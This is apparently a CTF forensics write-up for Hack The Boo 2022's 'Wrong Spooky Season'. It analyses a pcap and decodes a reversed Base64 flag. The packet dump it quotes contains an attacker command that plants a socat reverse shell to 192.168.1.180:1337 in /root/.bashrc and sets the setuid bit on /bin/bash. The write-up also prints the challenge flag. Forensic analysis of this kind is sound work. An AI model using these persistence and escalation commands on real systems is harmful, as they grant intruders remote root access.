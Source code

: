# Hack The Boo 2022

## Wrong Spooky Season

> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.
>
>  Author: N/A
>
> [`forensics_wrong_spooky_season.zip`](forensics_wrong_spooky_season.zip)

Tags: _forensics_

## Preparation

The challenge is provided with a pcap file to inspect. Opening the pcap in Wireshark brings an interesting stream of actions one can follow. Pretty much on the end of the capture there is an interessting looking package

```
0000   08 00 27 22 46 4f e0 4f 43 f7 13 5e 08 00 45 00   ..'"FO.OC..^..E.
0010   00 df 0c 9b 40 00 40 06 a8 d3 c0 a8 01 b4 c0 a8   ....@.@.........
0020   01 a6 05 39 b1 68 a4 d6 7a e0 37 ea 8e 50 80 18   ...9.h..z.7..P..
0030   01 f6 85 7c 00 00 01 01 08 0a ba 49 2d f2 3f 9a   ...|.......I-.?.
0040   1d aa 65 63 68 6f 20 27 73 6f 63 61 74 20 54 43   ..echo 'socat TC
0050   50 3a 31 39 32 2e 31 36 38 2e 31 2e 31 38 30 3a   P:192.168.1.180:
0060   31 33 33 37 20 45 58 45 43 3a 73 68 27 20 3e 20   1337 EXEC:sh' > 
0070   2f 72 6f 6f 74 2f 2e 62 61 73 68 72 63 20 26 26   /root/.bashrc &&
0080   20 65 63 68 6f 20 22 3d 3d 67 43 39 46 53 49 35    echo "==gC9FSI5
0090   74 47 4d 77 41 33 63 66 52 6a 64 30 6f 32 58 7a   tGMwA3cfRjd0o2Xz
00a0   30 47 4e 6a 4e 6a 59 66 52 33 63 31 70 32 58 6e   0GNjNjYfR3c1p2Xn
00b0   35 57 4d 79 42 58 4e 66 52 6a 64 30 6f 32 65 43   5WMyBXNfRjd0o2eC
00c0   52 46 53 22 20 7c 20 72 65 76 20 3e 20 2f 64 65   RFS" | rev > /de
00d0   76 2f 6e 75 6c 6c 20 26 26 20 63 68 6d 6f 64 20   v/null && chmod 
00e0   2b 73 20 2f 62 69 6e 2f 62 61 73 68 0a            +s /bin/bash.
```

Some Base64 encoded string. This looks like something which should be looked at:

```bash
$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d                               
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
